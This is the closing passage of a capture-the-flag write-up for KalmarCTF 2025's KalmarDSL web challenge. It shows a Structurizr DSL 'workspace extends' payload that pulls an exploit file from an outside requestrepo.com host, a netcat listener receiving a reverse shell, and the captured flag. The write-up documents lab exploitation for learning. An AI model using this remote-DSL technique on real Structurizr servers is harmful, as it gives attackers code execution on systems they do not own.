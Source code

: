 > Note: Since `ngrok` free plan only allows 1 instance, I'll host this file on [requestrepo.com](https://requestrepo.com).

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KalmarCTF-2025/images/Pasted%20image%2020250313164545.png)

- Submit our DSL payload:

```
workspace extends http://kmfe5wjp.requestrepo.com/exploit.dsl {
    
}
```

- Submit and profit!

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/KalmarDSL)-[2025.03.13|16:41:20(HKT)]
└> nc -lnvp 4444             
[...]
Connection received on 127.0.0.1 47932
/bin/sh: 0: can't access tty; job control turned off
$ whoami; id; hostname
tomcatuser
uid=999(tomcatuser) gid=999(tomcatgroup) groups=999(tomcatgroup)
c1dd053b8164
$ 
```

```shell
$ /would you be so kind to provide me with a flag 
kalmar{Y0_d4wg_I_He4rd_y0U_l1ke_DSL_s0_I_extended_y0ur_DSL_W1th_a_R3m0t3_DSL}
```

- **Flag: `kalmar{Y0_d4wg_I_He4rd_y0U_l1ke_DSL_s0_I_extended_y0ur_DSL_W1th_a_R3m0t3_DSL}`**

## Conclusion

What we've learned:

1. Structurizr DSL Remote Code Execution via workspace extension